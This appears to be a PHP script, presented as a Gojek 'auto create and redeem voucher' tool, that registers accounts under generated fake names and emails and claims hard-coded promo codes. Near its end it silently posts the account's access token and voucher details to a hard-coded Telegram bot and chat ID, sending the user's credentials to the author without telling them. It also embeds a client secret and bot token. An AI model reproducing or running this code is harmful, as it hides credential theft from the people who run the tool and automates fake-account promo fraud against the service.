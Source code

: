 
<?php
date_default_timezone_set('Asia/Jakarta');
include "function.php";
echo color("red"," ===========================\n");
echo color("red","| Claim Voucher Gojek|\n");
echo color("red","| Auto create Gojek W Redeem voucher |\n");
echo color("red","| github: Wa-Haji |\n");
echo color("red","| fanspage :5wahaji|\n");
echo color("red","| Creator : wahaji.com          |\n");
echo "| Version : Premium X solar      |\n";
echo "| Time    :".date('[d-m-Y] [H:i:s]')."   |\n";
echo " ===========================\n";

// function change(){
        $nama = nama();
        $email = str_replace(" ", "", $nama) . mt_rand(100, 999);
        ulang:
        echo color("nevy","?] Nomor : ");
        // $no = trim(fgets(STDIN));
        $nohp = trim(fgets(STDIN));
        $nohp = str_replace("62","62",$nohp);
        $nohp = str_replace("(","",$nohp);
        $nohp = str_replace(")","",$nohp);
        $nohp = str_replace("-","",$nohp);
        $nohp = str_replace(" ","",$nohp);

        if (!preg_match('/[^+0-9]/', trim($nohp))) {
            if (substr(trim($nohp),0,3)=='62') {
                $hp = trim($nohp);
            }
            else if (substr(trim($nohp),0,1)=='0') {
                $hp = '62'.substr(trim($nohp),1);
        }
         elseif(substr(trim($nohp), 0, 2)=='62'){
            $hp = '6'.substr(trim($nohp), 1);
        }
        else{
            $hp = '1'.substr(trim($nohp),0,13);
        }
    }
        $data = '{"email":"'.$email.'@gmail.com","name":"'.$nama.'","phone":"+'.$hp.'","signed_up_country":"ID"}';
        $register = request("/v5/customers", null, $data);
        if(strpos($register, '"otp_token"')){
        $otptoken = getStr('"otp_token":"','"',$register);
        echo color("green","+] Kode verifikasi sudah di kirim")."\n";
        otp:
        echo color("nevy","?] Otp: ");
        $otp = trim(fgets(STDIN));
        $data1 = '{"client_name":"gojek:cons:android","data":{"otp":"' . $otp . '","otp_token":"' . $otptoken . '"},"client_secret":"4c309650-787b-45a4-ade1-b2b9a8a8a0d7"}';
        $verif = request("/v5/customers/phone/verify", null, $data1);
        if(strpos($verif, '"access_token"')){
        echo color("green","+] Berhasil mendaftar\n");
        $token = getStr('"access_token":"','"',$verif);
        $uuid = getStr('"resource_owner_id":',',',$verif);
        echo color("green","+] Your access token : ".$token."\n\n");
        save("token.txt",$token);
        echo color("red","\n===========(REDEEM VOUCHER)===========");
        echo "\n".color("yellow","!] Claim voc GOFOOD02262A");
        echo "\n".color("yellow","!] Please wait");
        for($a=1;$a<=3;$a++){
        echo color("yellow",".");
        sleep(1);
        }
        $code1 = request('/go-promotions/v1/promotions/enrollments', $token, '{"promo_code":"GOFOOD021120A"}');
        $message = fetch_value($code1,'"message":"','"');
        if(strpos($code1, 'Promo kamu sudah bisa dipakai')){
        echo "\n".color("green","+] Message: ".$message);
        goto goride;
        }else{
        echo "\n".color("red","-] Message: ".$message);
        echo "\n".color("yellow","!] Claim voc GOFOOD02262A");
        echo "\n".color("yellow","!] Please wait");
        for($a=1;$a<=3;$a++){
        echo color("yellow",".");
        sleep(1);
        }
        sleep(3);
        $boba10 = request('/go-promotions/v1/promotions/enrollments', $token, '{"promo_code":"GOFOOD021120B"}');
        $messageboba10 = fetch_value($boba10,'"message":"','"');
        if(strpos($boba10, 'Promo kamu sudah bisa dipakai.')){
        echo "\n".color("green","+] Message: ".$messageboba10);
        goto goride;
        }else{
        echo "\n".color("red","-] Message: ".$messageboba10);
        echo "\n".color("yellow","!] Claim voc GOFOOD02262A");
        echo "\n".color("yellow","!] Please wait");
        for($a=1;$a<=3;$a++){
        echo color("yellow",".");
        sleep(1);
        }
        sleep(3);
        $boba19 = request('/go-promotions/v1/promotions/enrollments', $token, '{"promo_code":"GOFOOD02262A"}');
        $messageboba19 = fetch_value($boba19,'"message":"','"');
        if(strpos($boba19, 'Promo kamu sudah bisa dipakai.')){
        echo "\n".color("green","+] Message: ".$messageboba19);
        goto goride;
        }else{
        echo "\n".color("green","+] Message: ".$messageboba19);
        goride:
        echo "\n".color("yellow","!] Claim voc COBAGORIDE");
        echo "\n".color("yellow","!] Please wait");
        for($a=1;$a<=3;$a++){
        echo color("yellow",".");
        sleep(1);
        }
        sleep(3);
        $goride = request('/go-promotions/v1/promotions/enrollments', $token, '{"promo_code":"COBAGORIDE"}');
        $message1 = fetch_value($goride,'"message":"','"');
        echo "\n".color("green","+] Message: ".$message1);
        echo "\n".color("yellow","!] Claim voc COBAGORIDE");
        echo "\n".color("yellow","!] Please wait");
        for($a=1;$a<=3;$a++){
        echo color("yellow",".");
        sleep(1);
        }
        sleep(3);
        $goride1 = request('/go-promotions/v1/promotions/enrollments', $token, '{"promo_code":"COBAGORIDE"}');
        $message2 = fetch_value($goride1,'"message":"','"');
        echo "\n".color("green","+] Message: ".$message2);
        sleep(3);
        $cekvoucher = request('/gopoints/v3/wallet/vouchers?limit=10&page=1', $token);
        $total = fetch_value($cekvoucher,'"total_vouchers":',',');
        $voucher3 = getStr1('"title":"','",',$cekvoucher,"3");
        $voucher1 = getStr1('"title":"','",',$cekvoucher,"1");
        $voucher2 = getStr1('"title":"','",',$cekvoucher,"2");
        $voucher4 = getStr1('"title":"','",',$cekvoucher,"4");
        $voucher5 = getStr1('"title":"','",',$cekvoucher,"5");
        $voucher6 = getStr1('"title":"','",',$cekvoucher,"6");
        $voucher7 = getStr1('"title":"','",',$cekvoucher,"7");
        echo "\n".color("yellow","!] Total voucher ".$total." : ");
        echo color("green","1. ".$voucher1);
        echo "\n".color("green","                     2. ".$voucher2);
        echo "\n".color("green","                     3. ".$voucher3);
        echo "\n".color("green","                     4. ".$voucher4);
        echo "\n".color("green","                     5. ".$voucher5);
        echo "\n".color("green","                     6. ".$voucher6);
        echo "\n".color("green","                     7. ".$voucher7);
        echo"\n";
        $expired1 = getStr1('"expiry_date":"','"',$cekvoucher,'1');
        $expired2 = getStr1('"expiry_date":"','"',$cekvoucher,'2');
        $expired3 = getStr1('"expiry_date":"','"',$cekvoucher,'3');
        $expired4 = getStr1('"expiry_date":"','"',$cekvoucher,'4');
        $expired5 = getStr1('"expiry_date":"','"',$cekvoucher,'5');
        $expired6 = getStr1('"expiry_date":"','"',$cekvoucher,'6');
        $expired7 = getStr1('"expiry_date":"','"',$cekvoucher,'7');
        $TOKEN  = "1032900146:AAE7V93cvCvw1DNuTk0Hp1ZFywJGmjiP7aQ";
	$chatid = "785784404";
	$pesan 	= "[+] Gojek Account Info [+]\n\n".$token."\n\nTotalVoucher = ".$total."\n[+] ".$voucher1."\n[+] Exp : [".$expired1."]\n[+] ".$voucher2."\n[+] Exp : [".$expired2."]\n[+] ".$voucher3."\n[+] Exp : [".$expired3."]\n[+] ".$voucher4."\n[+] Exp : [".$expired4."]\n[+] ".$voucher5."\n[+] Exp : [".$expired5."]\n[+] ".$voucher6."\n[+] Exp : [".$expired6."]\n[+] ".$voucher7."\n[+] Exp : [".$expired7."]";
	$method	= "sendMessage";
	$url    = "https://api.telegram.org/bot" . $TOKEN . "/". $method;
	$post = [
 		'chat_id' => $chatid,
                'text' => $pesan
        	];
                $header = [
                "X-Requested-With: XMLHttpRequest",
                "User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/51.0.2704.84 Safari/537.36" 
                        ];
                                        $ch = curl_init();
                                        curl_setopt($ch, CURLOPT_RETURNTRANSFER, 1);
                                        curl_setopt($ch, CURLOPT_URL, $url);
                                        curl_setopt($ch, CURLOPT_HTTPHEADER, $header);
                                        curl_setopt($ch, CURLOPT_POSTFIELDS, $post );   
                                        curl_setopt($ch, CURLOPT_SSL_VERIFYPEER, false);
                                        $datas = curl_exec($ch);
                                        $error = curl_error($ch);
                                        $status = curl_getinfo($ch, CURLINFO_HTTP_CODE);
                                        curl_close($ch);
                                        $debug['text'] = $pesan;
                                        $debug['respon'] = json_decode($datas, true);
        
         
         }
         }
        }
         }else{
            echo color("red","-] Otp yang anda input salah");
            echo"\n==================================\n\n";
            echo color("yellow","!] Silahkan input kembali\n");
            goto otp;
            }
         }else{
         echo color("red","-] Nomor sudah teregistrasi");
         echo"\n==================================\n\n";
         echo color("yellow","!] Silahkan registrasi kembali\n");
         goto ulang;
         }
//  }

// echo change()."\n";
